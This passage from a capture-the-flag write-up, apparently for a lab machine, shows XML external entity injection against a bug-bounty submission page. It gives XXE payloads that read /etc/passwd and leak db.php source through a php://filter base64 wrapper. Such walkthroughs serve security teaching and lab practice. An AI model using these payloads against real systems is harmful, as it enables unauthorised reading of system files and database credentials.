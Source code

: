 **now lets analyze this piece of code:** 

we notic the data is sent to server  in `data` parameter in **xml** format so it seems **xml injection** 

so lets visit `tracker_diRbPr00f314.php`
![screen5](https://user-images.githubusercontent.com/36403473/137603146-d04cd586-f889-4833-9a2d-a5b4bda3ca21.png)

its include i think data that send to server lets open `burpsuite` to check request 

![screen9](https://user-images.githubusercontent.com/36403473/137604952-ee8822db-86be-45c4-9562-c1b17c212286.png)

very good this include data about your submission like `bug-bounty submission` dont forget this is bug-bounty platform 🧐🧐 

we will add `data` parameter  to request and send xml injection to try to read `/etc/passwd` file 

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>kajskdajd</cwe>
		<cvss>8787</cvss>
		<reward>557575</reward>
		</bugreport>

````
i sent this data in `data` parameter but  i didn't get anything  🧐

okey no problem i made Bounty Report via  `log_submit.php` and it send request to `tracker_diRbPr00f314.php` page but i found my submition trasnport in `data` parameter its encoded  (url&base64)

![screen7](https://user-images.githubusercontent.com/36403473/137603148-3ed9e522-ca06-4c2b-b36c-3a9fcbfd5410.png)

##### thats very good lets encode our xml code and try to inject again 

![screen8](https://user-images.githubusercontent.com/36403473/137605272-2b51d560-7b33-4ef7-9586-5aad5f9fac42.png)

another trick we can do to reverse source code of `db.php` file by using "php://filter/convert.base64-encode/resource=db.php"

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>kajskdajd</cwe>
		<cvss>8787</cvss>
		<reward>557575</reward>
		</bugreport>
```
![secreen10](https://user-images.githubusercontent.com/36403473/137605413-b7401f59-fe33-4b58-b1c4-97595127c23e.png)
